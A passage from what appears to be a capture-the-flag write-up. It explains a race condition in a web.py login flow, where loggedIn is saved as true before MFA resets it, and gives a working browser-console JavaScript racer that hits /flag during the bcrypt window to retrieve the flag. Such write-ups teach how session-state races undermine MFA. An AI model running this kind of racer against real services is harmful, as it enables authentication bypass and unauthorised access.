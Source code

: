 ```python
        else:
            session.kill()
            return render.flag(FLAG)
```

**Root cause:** During admin login, the app **first** saves `loggedIn=True` and **later** flips it to `False` for MFA. Because token generation uses **bcrypt (cost 14)**, there’s a measurable window between the two saves. Hitting `/flag` in that window with the **same session id** returns the flag.

---

## Exploitation

### Method A — **Browser console racer** (no cookie juggling)

Works because the browser automatically includes the current `webpy_session_id` (`HttpOnly`) on both requests.

Open the site, press F12 → **Console**, then paste:

```js
// Looks for ENO{...} while racing login vs flag in same session
(async () => {
  const sleep = ms => new Promise(r => setTimeout(r, ms));
  const delays = [0,10,20,30,40,60,80,120,160,200]; // tweak if needed

  while (true) {
    // 1) Start admin login (do not await -> we want overlap)
    fetch("/", {
      method: "POST",
      headers: {"Content-Type": "application/x-www-form-urlencoded"},
      body: "username=admin&password=admin",
      credentials: "include"
    });

    // 2) Probe /flag at several offsets during bcrypt work
    for (const d of delays) {
      await sleep(d);
      const resp = await fetch("/flag", {credentials: "include", cache: "no-store"});
      const text = await resp.text();
      const m = text.match(/ENO\{[^}]+\}/);
      if (m) {
        console.log("FLAG:", m[0]);
        console.log(text); // whole page if desired
        return;
      }
    }
  }
})();
```
